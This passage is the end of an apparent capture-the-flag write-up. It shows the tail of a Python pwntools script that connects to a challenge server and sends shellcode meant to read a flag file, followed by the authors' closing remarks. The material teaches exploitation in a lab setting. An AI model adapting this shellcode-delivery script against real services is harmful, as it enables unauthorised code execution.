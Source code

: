 ```python
  .string "flag"

""")

p = remote("0.cloud.chals.io", 22610)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too much verbose!). If something is still obscure to you you can ask a question on the discord server and we will try to answer in a timely manner.